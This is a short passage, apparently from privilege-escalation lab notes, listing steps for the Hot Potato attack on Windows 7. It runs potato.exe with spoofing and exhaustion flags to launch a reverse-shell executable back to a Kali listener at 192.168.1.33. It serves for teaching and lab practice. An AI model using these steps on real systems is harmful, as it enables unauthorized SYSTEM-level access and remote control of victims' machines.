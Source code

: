 (Note: These steps are for Windows 7)
1.Copy the potato.exe exploit executable over to Windows.

2.Start a listener on Kali.

3.Run the exploit:

.\potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" -
enable_httpserver true -enable_defender true -enable_spoof true -
enable_exhaust true


4.Wait for a Windows Defender update, or trigger one manually.